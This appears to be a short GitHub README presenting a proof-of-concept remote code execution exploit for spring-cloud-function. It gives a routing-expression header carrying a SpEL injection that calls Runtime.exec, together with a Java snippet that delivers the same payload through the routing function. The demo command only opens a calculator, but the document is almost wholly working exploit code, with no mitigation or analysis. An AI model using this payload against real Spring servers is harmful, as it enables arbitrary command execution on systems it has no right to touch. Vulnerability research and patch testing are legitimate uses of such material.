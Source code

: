 # spring-spel-0day-poc
spring-cloud/spring-cloud-function RCE EXP POC
https://github.com/spring-cloud/spring-cloud-function
header
```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
```
## Poc
```java
Function function = functionCatalog.lookup(RoutingFunction.FUNCTION_NAME);
Message<String> message = MessageBuilder.withPayload("hello")
 				.setHeader(FunctionProperties.PREFIX + ".routing-expression",
 						"T(java.lang.Runtime).getRuntime().exec(\"open -a calculator.app\")")
 				.build();
function.apply(message);
```
